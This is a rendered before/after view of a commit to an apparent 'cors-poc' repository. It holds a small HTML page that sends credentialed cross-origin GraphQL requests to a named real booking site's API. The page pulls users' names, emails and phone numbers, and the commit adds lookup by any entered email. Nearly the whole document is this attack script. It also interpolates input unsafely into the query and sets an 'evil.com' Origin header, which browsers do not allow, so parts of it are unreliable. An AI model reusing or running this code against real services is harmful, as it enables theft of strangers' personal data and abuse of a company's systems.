

Before and after one commit to mohamedswilm/cors-poc, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-640 px from the left). Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,9 +1,16 @@
 <html>
   <body>
-    <h2>Extracted Data:</h2>
+    <h2>CORS PoC with Email Input</h2>
+    <input type="text" id="email" placeholder="Enter email" />
+    <button onclick="fetchData()">Get Data</button>
+
+    <h3>Extracted Data:</h3>
     <pre id="output"></pre>
 
     <script>
+      function fetchData() {
+        const email = document.getElementById("email").value;
+
         fetch("https://www.thefork.com/api/graphql", {
           method: "POST",
           credentials: "include",
@@ -12,7 +19,7 @@
             "Origin": "https://evil.com"
           },
           body: JSON.stringify({
-          query: "{ user { firstName lastName email phone } }"
+            query: `{ userByEmail(email: "${email}") { firstName lastName email phone } }`
           })
         })
         .then(res => res.json())
@@ -20,6 +27,7 @@
           document.getElementById("output").innerText = JSON.stringify(data, null, 2);
         })
         .catch(err => console.error(err));
+      }
     </script>
   </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
